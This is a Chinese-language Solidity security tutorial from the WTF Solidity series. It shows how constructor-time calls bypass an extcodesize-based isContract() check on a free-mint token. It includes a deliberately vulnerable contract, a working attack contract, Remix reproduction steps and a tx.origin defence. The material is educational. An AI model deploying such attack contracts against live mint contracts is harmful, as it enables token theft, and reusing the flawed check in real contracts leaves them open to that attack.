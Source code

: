 ```yaml
---
title: S08. 绕过合约检查
tags:
  - solidity
  - security
  - constructor
---
```


# WTF Solidity 合约安全: S08. 绕过合约长度检查

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍绕过合约长度检查，并介绍预防的方法。

## 绕过合约检查

很多 freemint 的项目为了限制科学家（程序员）会用到 `isContract()` 方法，希望将调用者 `msg.sender` 限制为外部账户（EOA），而非合约。这个函数利用 `extcodesize` 获取该地址所存储的 `bytecode` 长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。

```solidity
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

这里有一个漏洞，就是在合约在被创建的时候，`runtime bytecode` 还没有被存储到地址上，因此 `bytecode` 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 `constructor` 中的话，就可以绕过 `isContract()` 检查。

![](./img/S08-1.png)

## 漏洞例子

下面我们来看一个例子：`ContractCheck`合约是一个 freemint ERC20 合约，铸造函数 `mint()` 中使用了 `isContract()` 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 `mint()` 可以铸造 100 枚代币。

```solidity
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 `1000` 枚代币：

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## `Remix` 复现

1. 部署 `ContractCheck` 合约。

2. 部署 `NotContract` 合约，参数为 `ContractCheck` 合约地址。

3. 调用 `ContractCheck` 合约的 `balanceOf` 查看 `NotContract` 合约的代币余额为 `1000`，攻击成功。

4. 调用`NotContract` 合约的 `mint()` 函数，由于此时合约已经部署完成，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不相等，调用者为合约。

```
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## 总结

这一讲，我们介绍了合约长度检查可以被绕过的漏洞，并介绍预防的方法。如果一个地址的 `extcodesize > 0`，则该地址一定为合约；但如果 `extcodesize = 0`，该地址既可能为 `EOA`，也可能为正在创建状态的合约。